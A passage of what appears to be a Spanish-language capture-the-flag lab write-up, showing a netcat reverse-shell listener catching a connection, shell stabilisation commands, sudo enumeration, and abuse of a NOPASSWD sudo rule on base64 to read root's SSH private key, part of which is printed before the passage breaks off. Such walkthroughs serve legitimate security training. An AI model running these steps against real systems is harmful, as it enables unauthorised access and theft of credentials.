 Insertamos el código en el formaulario con tu ip y puerto que vas a poner a escuchar en net cat antes de darle click al formulario:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...

```

Damos click al formulario y obtenemos acceso:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 45754
bash: cannot set terminal process group (94): Inappropriate ioctl for device
bash: no job control in this shell
verde@66c9b1b69b4b:~$ 
```

Hacemos un tratamiento de la tty

```bash
script /dev/null -c bash
# Dale a CTRL + Z y aunque parezca que se vaya la consola introduce los siguientes comandos:

stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

Enumeramos permisos

```bash
verde@66c9b1b69b4b:~$ id
id
uid=1000(verde) gid=1000(verde) groups=1000(verde)
verde@66c9b1b69b4b:~$ sudo -l
sudo -l
Matching Defaults entries for verde on 66c9b1b69b4b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User verde may run the following commands on 66c9b1b69b4b:
    (root) NOPASSWD: /usr/bin/base64
```

Encontramos un permiso sudo para leer archivos como root, con esto lo que podríamos hacer es leer archivos del dominio de root, al tener el servicio ssh, root podría tener un id_rsa en su carpeta de -ssh, vamos a ver:

```bash
verde@66c9b1b69b4b:~$ sudo base64 /root/.ssh/id_rsa | base64 --decode
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABAHul0xZQ
r68d1eRBMAoL1IAAAAEAAAAAEAAAIXAAAAB3NzaC1yc2EAAAADAQABAAACAQDbTQGZZWBB
VRdf31TPoa0wcuFMcqXJhxfX9HqhmcePAyZMxtgChQzYmmzRgkYH6jBTXSnNanTe4A0KME
c/77xWmJzvgvKyjmFmbvSu9sJuYABrP7yiTgiWY752nL4jeX5tXWT3t1XchSfFg50CqSfo
KHXV3Jl/vv/alUFgiKkQj6Bt3KogX4QXibU34xGIc24tnHMvph0jdLrR7BigwDkY2jZKOt
0aa7zBz5R2qwS3gT6cmHcKKHfv3pEljglomNCHhHGnEZjyVYFvSp+DxgOvmn1/pSEzUU4k
P/42fNSeERLcyHdVZvUt9PyPJpDvEQvULkqvicRSZ4VI0WmBrPwWWth4SMFOg+wnEIGvN4
tXtasHzHvdK9Lue2e3YiiFSOOkl0ZjzeYSBFZg3bMvu32SXKrvPjcsDlG1eByfqNV+lp2g
6EiGBk1eyrqb3INWp/KqVHvDObgC8aqg3SGI/6LM3wGdZ5tdEDEtELeHrrPtS/Xhhnq/cf
MNdrV9bsba/z9amMVWhAAlfX8xb4W7rdhgGH20PxaOfCZYQM6qjAClLBWP/rsX/3FGopi7
/fn6sD728szK2Q3nOoco+kBAdovd5vLOJxhbTec/QPPvNNS2zvGYv4liNoRQ9x8otaYdV+
+vvWPUk/oI3IaL15PWuD5o6SWTvpdSRY3OJhDVRR16jQAAB1AAatpK/Zsig5ZccWbZCeCG
bc3wbJWERECc8LV5Z3AyEwlvVxYiWNfqAso3YSx/e79qHy8yI5rSzwn344A/gtABC1zq9I
```